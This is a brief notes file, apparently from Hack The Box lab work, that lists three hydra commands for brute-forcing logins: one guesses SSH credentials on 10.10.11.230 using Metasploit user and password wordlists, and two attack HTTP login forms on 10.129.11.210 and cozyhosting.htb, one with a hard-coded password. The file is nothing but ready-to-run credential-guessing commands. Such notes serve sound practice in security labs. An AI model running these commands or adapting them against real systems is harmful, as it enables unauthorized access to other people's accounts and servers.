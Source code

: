 # Hydra

hydra -f -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt -u 10.10.11.230 ssh


 hydra -f -l admin -p rKXM59ESxesUFHAd -u 10.129.11.210 http-post-form "/login:username=^USER^&password=^PASS^:dashboard" -I


 hydra -f -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt -u cozyhosting.htb http-post-form "/login:username=^USER^&password=^PASS^:f=error"